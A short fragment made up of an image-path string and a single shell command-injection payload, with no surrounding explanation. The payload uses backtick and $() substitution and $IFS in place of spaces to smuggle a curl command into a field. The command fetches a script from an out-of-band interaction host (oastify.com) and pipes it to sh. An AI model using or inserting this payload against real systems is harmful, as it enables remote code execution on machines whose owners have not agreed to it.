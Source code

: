 '`curl$IFS@4jophou2qmfo3h5ujxox5cvmndt4hu5j.oastify.com|sh`'$(curl$IFS@4jophou2qmfo3h5ujxox5cvmndt4hu5j.oastify.com|sh)
